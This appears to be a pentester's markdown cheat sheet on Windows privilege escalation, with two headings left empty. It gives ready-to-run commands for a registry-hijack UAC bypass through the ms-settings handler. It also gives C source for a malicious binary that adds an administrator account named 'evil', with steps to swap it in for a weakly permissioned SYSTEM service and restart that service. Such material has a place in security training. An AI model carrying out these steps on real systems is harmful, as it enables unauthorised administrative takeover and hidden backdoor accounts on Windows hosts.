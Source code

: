 # Windows Privilege Escalation

Extract useful information using scripts:

1. [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
2. [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
3. [Watson](https://github.com/rasta-mouse/Watson)
4. [Seatbelt](https://github.com/GhostPack/Seatbelt)
5. [Powerless](https://github.com/M4ximuss/Powerless)

## Basics

* Windows operating system uses objects called **access tokens** to enforce privileges on a user account
* These tokens are uniquely identified using a security identifier or **SID**
* **Integrity levels** are assigned to processes and securable objects
  1. System integrity process: SYSTEM rights
  2. High integrity process: administrative rights
  3. Medium integrity process: standard user rights
  4. Low integrity process: very restricted rights

## UAC Bypass

### Non-silent Method

* What is the current user's **integrity level**?

        whoami /groups

* Attempt to change the password for the admin user

        net user admin password123

* In order to change the admin user’s password, we need to **switch to a high integrity level** even if we are logged in as an administrator.

        powershell.exe Start-Process cmd.exe -Verb runAs

* Re-check the integrity level of current user, and, try changing the admin password

        whoami /groups
        net user admin password123

Note: When running at a high integrity level, password of a user can be changed successfully.

### Silent Method

* Identify a binary that runs at a high integrity level
* Inspect the applicatioin manifest

        .\sigcheck64.exe -accepteula
        .\sigcheck.exe -a -m C:\Windows\System32\file.exe

* Add a missing registry key

        REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command

* Use **REG ADD** with the `/v` argument to specify the value name and `/t` to specify the type

        REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ

* Silently replace the empty (Default) value of a registry key with path to an executable, e.g., `cmd.exe`

        REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f

* Run the vulnerable executable
* Re-check the integrity level of current user, and, try changing the admin password

        whoami /groups
        net user admin password123

## Insecure file permissions

Target: Exploit insecure file permissions on **services** that run as **nt authority\system**

* List running services

        tasklist /SVC
    ---

        powershell -c "Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}"

* Look for user-installed services that are installed in **Program Files** directory

        dir /s *Service*
        dir /s VGAuthService.exe vmtoolsd.exe ManagementAgentHost.exe

* Enumerate the permissions granted to identified services

        icacls "c:\Program Files\VMware\VMware Tools\vmtoolsd.exe"
        icacls "c:\Program Files\VMware\VMware Tools\VMware CAF\pme\bin\ManagementAgentHost.exe"
        icacls "c:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"

    F - Full access
    M - Modify access
    RX - Read and execute access
    R - Read-only access
    W - Write-only access

* If a weak permission is found associated with a privileged service, we can replace the vulnerable service with a malicious binary and then trigger it by restarting the service or rebooting the machine

    1. Create a malicious binary **adduser.c**

        ```c
        #include <stdio.h>
        int main()
        {
            int i;
            i = system("net user evil password123 /add");
            i = system("net localgroup administrators evil /add");

            return 0;
        }
        ```

    2. Cross-compile the binary

            i686-w64-mingw32-gcc adduser.c -o adduser.exe
    
    3. Transfer the malicious EXE file to target machine, and replace the original service.exe binary with the malicious binary

            > move "C:\Program Files\ServicePath\service.exe" "C:\Program Files\ServicePath\service_original.exe"
            > move adduser.exe "C:\Program Files\ServicePath\service.exe"

    4. Restart the vulnerable service

            net stop serviceName
            net start serviceName

    5. Check the start options of the vulnerable service

            wmic service where caption="serviceName" get name, caption, state, startmode

## Unquoted service paths



## Kernel driver vulnerabilities



## References

* https://medium.com/bugbountywriteup/privilege-escalation-in-windows-380bee3a2842#:~:text=Services%20created%20by%20SYSTEM%20having,be%20executed%20with%20SYSTEM%20privileges
* https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
* https://esseum.com/hack-the-box-optimum-writeup/